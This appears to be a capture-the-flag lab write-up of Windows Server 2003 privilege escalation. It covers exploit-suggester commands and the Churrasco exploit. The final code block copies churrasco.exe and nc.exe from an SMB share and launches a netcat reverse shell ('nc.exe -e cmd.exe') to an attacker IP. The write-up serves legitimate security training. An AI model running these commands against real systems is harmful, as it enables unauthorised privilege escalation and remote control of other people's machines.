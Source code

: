 

# Privesc



## Post Enumeration

systeminfo , windows 2003 server sp2.

```bash
systeminfo, 2003 server sp2
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
```

local dir, nothing found.



search exploit.

```bash
# https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --database 2022-09-24-mssb.xls --systeminfo sysinfo.txt

# https://github.com/bitsadmin/wesng
wes sysinfo.txt --hide "Internet Explorer" Edge
```

found a lot of exploit, not sure which one to choose.



google,  windows 2003 server privilege escalation, found 2 exploits.

https://www.exploit-db.com/exploits/37755
https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
https://vk9-sec.com/microsoft-windows-x86-afd-sys-local-privilege-escalation-ms11-046-2011-1249/





## System-churrasco



google search: windows 2003 privilege escalation,  [reference](https://medium.com/@sinfulz/hackthebox-granny-walkthrough-oscp-friendly-cf800b42ce7a)

found churrasco,  https://www.exploit-db.com/exploits/6705

download the exe from  https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

exploit 

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe

# upload via smb
impacket-smbserver -smb2support share .

# target copy 
copy \\10.10.14.15\share\churrasco.exe churrasco.exe
copy \\10.10.14.15\share\nc.exe nc.exe
.\churrasco.exe -d "c:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.15 4444"

```
